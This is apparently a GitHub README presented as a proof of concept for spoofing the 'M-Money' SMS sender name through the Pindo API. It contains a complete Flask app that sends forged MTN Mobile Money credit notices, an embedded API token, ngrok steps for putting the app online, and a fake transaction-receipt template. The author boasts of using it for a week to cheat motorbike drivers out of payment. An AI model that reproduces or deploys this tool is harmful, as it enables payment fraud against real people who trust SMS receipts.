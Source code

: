 # Proof of concept 

Hy all I Hope you're doing epic! I've got some wild news to share about the Pindo API that'll probably blow your mind. 🔥

Guess what? While diving deep into the tech ocean, I stumbled upon something that had me raising an eyebrow. It turns out that there's this ninja-like way users can play around with the system. By sneaking in spaces before or after a company name in messages, it's like a digital cloak that can turn anyone into a master of disguise. Cool, right?

But wait, it gets even cooler. I went ahead and put this thing to the test. Sent some money via MTN Mobile Money and guess what? The name checking seems to be on a coffee break. I kid you not, I’ve been moving around sending money to people back and forth to check if the whole thing works .. for a whole week its like I have a money tank or something 😂😂😂😂😂😂… the easiest target was motorbikes of course . Because they’re the ones who only check for the amount money that was received but never open the whole message 😆.. I don’t know why they appealed to me like an easy terget tbh. 😎

But fear not, the good news is, I've got your back. I've done some digging, and MTN's firewall seems to be on the lookout for messages that scream "M-Money." That's where the magic happens to put it simply mtn's firewall rules are only set to detect message that has exactly "M-Money" as message title . Toss in a sly space, like "M-Money " and you're basically a mobile money wizard. Seriously, it's like you've sent money to someone without even breaking a sweat.

Now, here's where the plot thickens. It's a slick move for folks who've got places to be and only peek at their messages and the cash flow. Caught a few curious cats, though, ones who've got an eye for detail. Can't fool everyone, right? 😄

Now, I'm not just here to tease you with tech tales. I've got something in store. I've whipped up a POC, a proof of concept, that'll show you this slick space trick in action. The repo is all set and ready to rumble on GitHub. Check it out and let me know what you think.

```python
from flask import Flask, render_template, request, redirect, flash
from flask_wtf import FlaskForm
from wtforms import StringField, TextAreaField
from wtforms.validators import DataRequired
from flask_sqlalchemy import SQLAlchemy
import requests

app = Flask(__name__)
app.config['SECRET_KEY'] = 'idontdrinkmyownpee'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///messages.db'  # Use SQLite database
db = SQLAlchemy(app)

class SMSForm(FlaskForm):
    numbers = StringField('Phone Numbers (comma-separated)', validators=[DataRequired()])
    message = TextAreaField('Message', validators=[DataRequired()])

class Message(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    numbers = db.Column(db.String(255), nullable=False)
    message = db.Column(db.String(255), nullable=False)

PINDO_API_TOKEN = 'eyJhbGciOiJub25lIn0.eyJpZCI6OTgyLCJyZXZva2VkX3Rva2VuX2NvdW50IjowfQ.'

@app.route('/', methods=['GET', 'POST'])
def send_sms():
    form = SMSForm()

    if form.validate_on_submit():
        numbers = form.numbers.data
        message = form.message.data

        numbers_list = [num.strip() for num in numbers.split(',')]

        headers = {'Authorization': 'Bearer ' + PINDO_API_TOKEN}
        url = 'https://api.pindo.io/v1/sms/'

        with app.app_context():  # Enter the application context
            for number in numbers_list:
                data = {'to': number, 'text': message, 'sender': ' M-Money'}
                response = requests.post(url, json=data, headers=headers)

                print(f'Sending to {number}: {response.status_code}')

                # Store the sent message in the database
                new_message = Message(numbers=number, message=message)
                db.session.add(new_message)
                db.session.commit()

            flash('SMS sent successfully!', 'success')
            return redirect('/')

    return render_template('index.html', form=form)

if __name__ == '__main__':
    with app.app_context():  # Enter the application context
        db.create_all()  # Create database tables
    app.run(debug=True)
```

you can use my pindo api token for configuration but you can easily get your token when you sign in … matter of fact you don’t even have to use legitimate information … as long as you have a google account you’re good to go when you sign in to pindo you check your profile for 

the token and use the same token but its worth checking it out explore yourself 

then then when you run 

python3 [app.py](http://app.py) considering that you’ve name your app app.py

it runs locally on address 172.0.0.1:5000 on port 5000 because flasks projects typically

runs on port 5000

and then to make the app available to the internet i used ngrok of course am not gonna talk about it but you can get an account right now if you have google account [https://dashboard.ngrok.com/signup](https://dashboard.ngrok.com/signup) you can also create ngrok accoung to get their token for free without providing your personal deatails and here’s the link to download it using git clone [https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz](https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz) .. after downloading you check the file type and unzip it using gzip -d “filename” and when the unzip is done 

the file will come with .tar extension use tar xvf to unarchive it . and then run

`ngrok config add-authtoken "token"`  you’ll use your personal token and after configuring you run it with ./ngrok http 5000 and when you its fully operational you can copy the link provided and paste it in your browser address and then you see something like this

and then you make ngrok run on the same project run on port 5000 as soon as you the local application is on the internet you get an url you input in your browser for sending messages and

now when you send the message its like this …..

i used this template as a message 

`You have received 20000 RWF from UWERA MARIE CLAIRE (*********876) on your mobile money account at 2023-08-10 03:27:39. Message from sender: 1. Your new balance: 2018 RWF. Loyalty fee was 0 and loyalty reward was 0. Promotion was 0. Financial Transaction Id: 10438338079.`

of course you edit the message to make it look legitimate and when you hop on off the bike you send your imaginary money then you’re good to go.

thats was cool right?

Happy hacking.
